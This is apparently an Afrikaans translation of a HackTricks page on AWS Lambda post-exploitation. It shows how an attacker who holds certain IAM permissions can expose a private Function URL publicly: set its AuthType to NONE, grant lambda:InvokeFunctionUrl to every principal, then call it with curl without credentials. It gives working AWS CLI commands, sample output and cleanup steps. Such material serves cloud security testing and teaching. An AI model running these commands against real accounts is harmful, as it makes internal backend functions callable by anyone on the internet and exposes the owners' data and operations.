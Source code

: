 # AWS - Lambda Function URL Publieke Blootstelling (AuthType NONE + Public Invoke Policy)

Skakel 'n private Lambda Function URL om na 'n publieke onbevestigde endpoint deur die Function URL AuthType na NONE te verander en 'n resource-based policy aan te heg wat lambda:InvokeFunctionUrl aan almal toestaan. Dit stel anonieme aanroep van interne funksies in staat en kan sensitiewe backend-operasies openbaar maak.

## Misbruik daarvan

- Vereistes: lambda:UpdateFunctionUrlConfig, lambda:CreateFunctionUrlConfig, lambda:AddPermission
- Region: us-east-1

### Stappe
1) Maak seker die funksie het 'n Function URL (standaard is AWS_IAM):
```
aws lambda create-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```

2) Skakel die URL na publiek (AuthType NONE):
```
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type NONE
```

3) Voeg 'n resource-based policy statement by om ongeauthentiseerde principals toe te laat:
```
aws lambda add-permission --function-name $TARGET_FN --statement-id ht-public-url --action lambda:InvokeFunctionUrl --principal "*" --function-url-auth-type NONE
```

4) Haal die URL en roep sonder credentials aan:
```
URL=$(aws lambda get-function-url-config --function-name $TARGET_FN --query FunctionUrl --output text)
curl -sS "$URL"
```

### Impak
- Die Lambda funksie word anoniem toeganklik oor die internet.

### Voorbeelduitset (unauthenticated 200)
```
HTTP 200
https://e3d4wrnzem45bhdq2mfm3qgde40rjjfc.lambda-url.us-east-1.on.aws/
{"message": "HackTricks demo: public Function URL reached", "timestamp": 1759761979, "env_hint": "us-east-1", "event_keys": ["version", "routeKey", "rawPath", "rawQueryString", "headers", "requestContext", "isBase64Encoded"]}
```
### Opruiming
```
aws lambda remove-permission --function-name $TARGET_FN --statement-id ht-public-url || true
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```

